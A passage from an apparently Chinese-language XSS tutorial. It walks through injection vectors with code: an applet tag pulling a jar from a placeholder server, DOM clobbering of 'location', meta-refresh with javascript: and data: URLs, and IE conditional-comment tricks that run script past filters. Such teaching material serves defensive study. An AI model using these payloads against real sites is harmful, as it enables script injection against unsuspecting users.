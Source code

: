 以及 applet 标签中 code 和 archive 属性可以用来调用 jar 文件，执行 java 代码。

```
<applet code="XSS" archive="http://someserver.com/xss.jar"></applet> 
```

Javascript 可以通过 DOM 直接获取当前页面中对应的 id 和 name 属性的对象：

```
<html>
<body>
<div id="test"></div>
<script>alert(test)</script>
</body>
</html> 
```

上面代码可以看出 Javascript 中并没定义 test 变量，但是获取到了页面中 id 为 test 的对象。

反过来，我们可以在外部直接控制 Javascript 变量，并且在一些浏览器中可以重写 Javascript 中已有的变量。

```
<html>
<body>
<form id="location" href="bar">
<script>alert(location.href)</script>
</body>
</html> 
```

以上代码在 IE 中可以看到弹出的 bar，而不是当前页面的 url，成功覆盖了原本的变量。

还有一种利用 meta 标签来执行 Javascript：

```
<meta http-equiv="refresh" content="0; url=javascript:alert(document.domain)"> 
```

上面代码可以在 Chrome，Opera，IE6 中可执行 javascript 代码，并且弹出的时 meta 标签所在的域。

如果禁止了 javascript:协议，也可使用 data:协议，不过能够顺利执行 javascript 并且继承 meta 标签域的测试到的只有 Opera。

```
<meta http-equiv="refresh" content="0; url=data:text/html,<script>alert(document.domain)</script>"> 
```

IE 中为了兼容各个版本，所以有一个条件注释的语法，这个语法其他浏览器并不支持，会自动当成 html 注释。

```
<!--[if IE 8]>
<p>Welcome to Internet Explorer 8.</p> 
<![endif]--> 
```

如上文字只有在 IE8 中才会显示，条件注释对于开发是一件很好的事情，可以方便的判断浏览器版本获取兼容代码展现给用户。

```
<!--[if gte IE 7]><p>You are using IE 7 or greater.</p><![endif]-->
<!--[if (IE 5)]><p>You are using IE 5 (any version).</p><![endif]-->
<!--[if (gte IE 5.5)&(lt IE 7)]><p>You are using IE 5.5 or IE 6.</p><![endif]-->
<!--[if lt IE 5.5]><p>Please upgrade your version of Internet Explorer.</p><![endif]-->
<!--[if lt Contoso 2]>
<p>Your version of the Contoso control is out of date; please update to the latest.</p>
<![endif]-->
<![if IE 8.0] >
<script > alert(1)</script >  //只在 IE8 下执行
<![endif] >
<![if IE 8.0000000000000000]]] >
<script > alert(2)</script >  // IE8 同样执行
<![endif] >
<![if IE 8.0000000000000000?] >
<script > alert(3)</script >  // 所有的 IE 都执行
```